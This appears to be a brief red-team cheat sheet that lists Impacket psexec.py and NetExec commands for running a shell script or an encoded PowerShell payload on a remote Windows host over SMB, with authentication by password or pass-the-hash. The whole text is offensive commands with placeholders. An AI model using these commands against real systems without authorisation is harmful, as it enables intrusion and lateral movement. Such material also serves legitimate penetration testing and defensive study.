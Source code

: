# Unix Shell

## 01 - Impacket

- Authenticate via username and password

`$ psexec.py <domain_name>/<username>:<password>@<IP> -c shell.bat`

- Authenticate via Pass The Hash

`$ psexec.py <domain_name>/<username>@<IP> -hashes <LM>:<NT> -c shell.bat`

## 02 - NetExec

- Authenticate via username and password

`$ netexec smb <IP> -u <username> -d <domain_name> -p <password> -x shell.bat`

`$ netexec smb <IP> -u <username> -d <domain_name> -p <password> -x "powershell -E <base64_payload>"`

- Authenticate via Pass The Hash

`$ netexec smb <IP> -u <username> -d <domain_name> -H <NT> -x shell.bat`

`$ netexec smb <IP> -u <username> -d <domain_name> -H <NT> -x "powershell -E <base64_payload>"`